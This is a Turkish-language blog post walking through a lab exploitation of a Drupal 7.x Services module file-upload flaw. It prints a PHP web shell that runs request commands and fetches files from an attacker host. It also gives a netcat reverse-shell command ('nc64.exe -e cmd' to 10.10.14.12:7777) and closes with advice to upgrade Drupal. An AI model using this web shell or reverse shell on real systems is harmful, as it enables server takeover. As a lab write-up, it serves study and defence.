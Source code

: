 ```yaml
---
layout: post
title: Drupal 7.x Module Services Remote Shell Upload
date: 2022-02-23 21:17
author: theguler
comments: true
categories: [Hacking - Security]
---
```

<!-- wp:heading -->
<h2 id="exploiting-zaafiyeti-test-edelim">Exploiting – Zaafiyeti test edelim.</h2>
<!-- /wp:heading -->

<!-- wp:paragraph -->
<p>İlk olarak Drupal sürümünü belirleyelim.&nbsp;Bunun için tarayıcıdan CHANGELOG.txt dosyasına erişebiliriz, bu hazır bir Drupal şablonudur.</p>
<!-- /wp:paragraph -->

<!-- wp:list -->
<ul><!-- wp:list-item -->
<li><a href="https://10.10.10.9/CHANGELOG.txt">httpss://10.10.10.9/CHANGELOG.txt</a></li>
<!-- /wp:list-item --></ul>
<!-- /wp:list -->

<!-- wp:image {"id":4579} -->
<figure class="wp-block-image"><img src="httpss://vk9-sec.com/wp-content/uploads/2021/03/word-image-150.png" alt="" class="wp-image-4579" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Not: Drupal 7.54 sürümü olduğunu bize söylüyor.</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>2. Bir sürümle ilişkili Zaafiyetler'i bulmak için searchsploit‘i kullanabiliriz.</p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">searchsploit drupal 7</pre>
<!-- /wp:preformatted -->

<!-- wp:image {"id":4580} -->
<figure class="wp-block-image"><img src="httpss://vk9-sec.com/wp-content/uploads/2021/03/word-image-151.png" alt="" class="wp-image-4580" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>3. Şimdi bu betiği<strong> /home/vry4n/Desktop </strong>dizinimize indirelim.</p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">searchsploit -m php/webapps/41564.php</pre>
<!-- /wp:preformatted -->

<!-- wp:image {"id":4581} -->
<figure class="wp-block-image"><img src="httpss://vk9-sec.com/wp-content/uploads/2021/03/word-image-152.png" alt="" class="wp-image-4581" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>4. Önce kodu değiştireceğiz, değiştirmemiz gereken kısmı vurguladım.</p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">vi 41564.php</pre>
<!-- /wp:preformatted -->

<!-- wp:image {"id":4582,"width":608,"height":598} -->
<figure class="wp-block-image is-resized"><img src="httpss://vk9-sec.com/wp-content/uploads/2021/03/word-image-153.png" alt="" class="wp-image-4582" width="608" height="598" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>5. Önce tarayıcımzı açarak $endpoint_path’in var olduğunu görelim.</p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">httpss://10.10.10.9/rest_endpoint
404 Bulunamadı</pre>
<!-- /wp:preformatted -->

<!-- wp:image {"id":4583} -->
<figure class="wp-block-image"><img src="httpss://vk9-sec.com/wp-content/uploads/2021/03/word-image-154.png" alt="" class="wp-image-4583" /></figure>
<!-- /wp:image -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">httpss://10.10.10.9/rest
20OK (found)</pre>
<!-- /wp:preformatted -->

<!-- wp:image {"id":4584} -->
<figure class="wp-block-image"><img src="httpss://vk9-sec.com/wp-content/uploads/2021/03/word-image-155.png" alt="" class="wp-image-4584" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>6. Bulduk.. Simdi Aşağıdaki gibi düzenleyelim.</p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">$url = ‘httpss://10.10.10.9’;

$endpoint_path = ‘/rest’;

$endpoint = ‘rest_endpoint’;

$file = [

&nbsp; &nbsp; ‘filename’ =&gt; ‘test.php’,

&nbsp; &nbsp; ‘data’ =&gt; ‘&lt;?php echo “Vry4n was here!!”; ?&gt;’

];</pre>
<!-- /wp:preformatted -->

<!-- wp:image {"id":4585} -->
<figure class="wp-block-image"><img src="httpss://vk9-sec.com/wp-content/uploads/2021/03/word-image-156.png" alt="" class="wp-image-4585" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>7. php-curl kurmamız gerekebilir.</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p></p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">sudo apt-get install php-curl</pre>
<!-- /wp:preformatted -->

<!-- wp:image {"id":4586} -->
<figure class="wp-block-image"><img src="httpss://vk9-sec.com/wp-content/uploads/2021/03/word-image-157.png" alt="" class="wp-image-4586" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p><strong>php-curl </strong>yüklemeden önce aldığımız HATA</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4587} -->
<figure class="wp-block-image"><img src="httpss://vk9-sec.com/wp-content/uploads/2021/03/word-image-158.png" alt="" class="wp-image-4587" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Komut dosyasını yürütelim.</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p></p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">php 41564.php</pre>
<!-- /wp:preformatted -->

<!-- wp:image {"id":4588} -->
<figure class="wp-block-image"><img src="httpss://vk9-sec.com/wp-content/uploads/2021/03/word-image-159.png" alt="" class="wp-image-4588" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>9. Kod başarıyla yürütüldü ve bize&nbsp;<a href="httpss://10.10.10.9/test.php">httpss://10.10.10.9/test.php</a>&nbsp;adresini ziyaret etmemizi söylüyor.</p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">httpss://10.10.10.9/test.php</pre>
<!-- /wp:preformatted -->

<!-- wp:image {"id":4589} -->
<figure class="wp-block-image"><img src="httpss://vk9-sec.com/wp-content/uploads/2021/03/word-image-160.png" alt="" class="wp-image-4589" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>10. Dosyayı oluşturduk ve uzak Drupal sunucusunda çalıştırdık.</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>11. Şimdi yeni dosyalar yükleyebilen ve komutları çalıştırabilen bir dosya oluşturacağız.&nbsp;test.php betiğimize aşağıdaki kodu ekleyeceğiz.</p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">$phpCode = &lt;&lt;&lt;‘EOD’

&lt;?php

&nbsp; &nbsp; if (isset($_REQUEST[‘fupload’])) {

&nbsp; &nbsp; &nbsp; &nbsp; file_put_contents($_REQUEST[‘fupload’], file_get_contents(“httpss://10.10.14.12:8888/” . $_REQUEST[‘fupload’]));

&nbsp; &nbsp; };

&nbsp; &nbsp; if (isset($_REQUEST[‘fexec’])) {

&nbsp; &nbsp; &nbsp; &nbsp; echo “&lt;pre&gt;” . shell_exec($_REQUEST[‘fexec’]) . “&lt;/pre&gt;”;

&nbsp; &nbsp; };

?&gt;

EOD;

$file = [

‘filename’ =&gt; ‘vry4n.php’,

‘data’ =&gt; $phpCode

];</pre>
<!-- /wp:preformatted -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted"><strong>vi 41564.php</strong></pre>
<!-- /wp:preformatted -->

<!-- wp:image {"id":4590} -->
<figure class="wp-block-image"><img src="httpss://vk9-sec.com/wp-content/uploads/2021/03/word-image-161.png" alt="" class="wp-image-4590" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>12. Şimdi yeni dosyayı yüklemek için betiği tekrar çalıştıralım.</p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">php 41564.php</pre>
<!-- /wp:preformatted -->

<!-- wp:image {"id":4591} -->
<figure class="wp-block-image"><img src="httpss://vk9-sec.com/wp-content/uploads/2021/03/word-image-162.png" alt="" class="wp-image-4591" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>13. Bu noktada vry4n.php dosyası yüklendi, 2 değişken kullanabiliriz&nbsp;<strong>fupload</strong>&nbsp;&amp;&nbsp;<strong>fexec</strong>&nbsp;.&nbsp;Temel komutları test etmek&nbsp;için ilk&nbsp;<strong>fexec’i</strong>&nbsp;kullanacağız.</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p></p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">httpss://10.10.10.9/vry4n.php?fexec=dir</pre>
<!-- /wp:preformatted -->

<!-- wp:image {"id":4592} -->
<figure class="wp-block-image"><img src="httpss://vk9-sec.com/wp-content/uploads/2021/03/word-image-163.png" alt="" class="wp-image-4592" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>14. Artık komutları çalıştırabileceğimize göre,&nbsp;<strong>fupload</strong>&nbsp;işlevselliğini&nbsp;test edebiliriz&nbsp;.&nbsp;Bir resim yükleyeceğiz.&nbsp;Öncelikle bir web sunucusu başlatmamız ve script'te yazdığımız ayarların aynısını kullanmamız gerekiyor.</p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">python3.9 -m https.server 8888</pre>
<!-- /wp:preformatted -->

<!-- wp:image {"id":4593} -->
<figure class="wp-block-image"><img src="httpss://vk9-sec.com/wp-content/uploads/2021/03/word-image-164.png" alt="" class="wp-image-4593" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>15. Şimdi tarayıcıya gitmemiz gerekiyor,&nbsp;<strong>fupload</strong>&nbsp;değişkenini&nbsp;kullanacağız.</p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">httpss://10.10.10.9/vry4n.php?fupload=vk9sec.jpg

httpss:// 10.10.10.9/vk9sec.jpg</pre>
<!-- /wp:preformatted -->

<!-- wp:image {"id":4594} -->
<figure class="wp-block-image"><img src="httpss://vk9-sec.com/wp-content/uploads/2021/03/word-image-165.png" alt="" class="wp-image-4594" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>16. Artık herhangi bir talimat yürütmeden önce sistem hakkında bilgi toplayabiliriz.</p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">httpss://10.10.10.9/vry4n.php?fexec=systeminfo</pre>
<!-- /wp:preformatted -->

<!-- wp:image {"id":4595} -->
<figure class="wp-block-image"><img src="httpss://vk9-sec.com/wp-content/uploads/2021/03/word-image-166.png" alt="" class="wp-image-4595" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Not: Görüldüğü üzere Yamasız bir x64 bit sistemimiz var, Microsoft Windows Server 2008 R2 Datacenter</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>17. Şimdi&nbsp;<a href="httpss://eternallybored.org/misc/netcat/">httpss://eternallybored.org/misc/netcat/ adresinden</a>&nbsp;Windows için bir x64 netcat indireceğiz.</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p><a href="httpss://eternallybored.org/misc/netcat/"></a></p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted"><strong>#netcat-win32-1.11.zip dosyasını açın.</strong>

cd netcat-1.11 &amp;&amp; ls

python3.9 -m https.sunucu 8888</pre>
<!-- /wp:preformatted -->

<!-- wp:image {"id":4596} -->
<figure class="wp-block-image"><img src="httpss://vk9-sec.com/wp-content/uploads/2021/03/word-image-167.png" alt="" class="wp-image-4596" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>18. Şimdi local bir dinleyici başlatalım.</p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">nc -lvp 7777</pre>
<!-- /wp:preformatted -->

<!-- wp:image {"id":4597} -->
<figure class="wp-block-image"><img src="httpss://vk9-sec.com/wp-content/uploads/2021/03/word-image-168.png" alt="" class="wp-image-4597" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>19. Tarayıcıdan&nbsp;, yürütmek için&nbsp;netcat &amp;&nbsp;<strong>fexec</strong>&nbsp;yüklemek&nbsp;için&nbsp;<strong>fupload</strong>&nbsp;değişkenini kullanalım.</p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">httpss://10.10.10.9/vry4n.php?fupload=nc64.exe&amp;fexec=nc64.exe -e cmd 10.10.14.12 7777</pre>
<!-- /wp:preformatted -->

<!-- wp:paragraph -->
<p>20. nc64.exe dosyasını indirmek için web sunucumuza 200 OK diyoruz.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4598} -->
<figure class="wp-block-image"><img src="httpss://vk9-sec.com/wp-content/uploads/2021/03/word-image-169.png" alt="" class="wp-image-4598" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>21. Dinleyiciyi kontrol ederken, şimdi yürütmeden sonra bir shell görmeliyiz.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4599} -->
<figure class="wp-block-image"><img src="httpss://vk9-sec.com/wp-content/uploads/2021/03/word-image-170.png" alt="" class="wp-image-4599" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p><strong>Çözüm nedir – Quick solution</strong></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Acilen Drupal sürümünü yükseltin. – Upgrade Drupal urgently</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>ilgili link:&nbsp;<a href="httpss://www.exploit-db.com/exploits/41564">httpss://www.exploit-db.com/exploits/41564</a></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p><strong>Saygılarımla. – Best regards.</strong></p>
<!-- /wp:paragraph -->
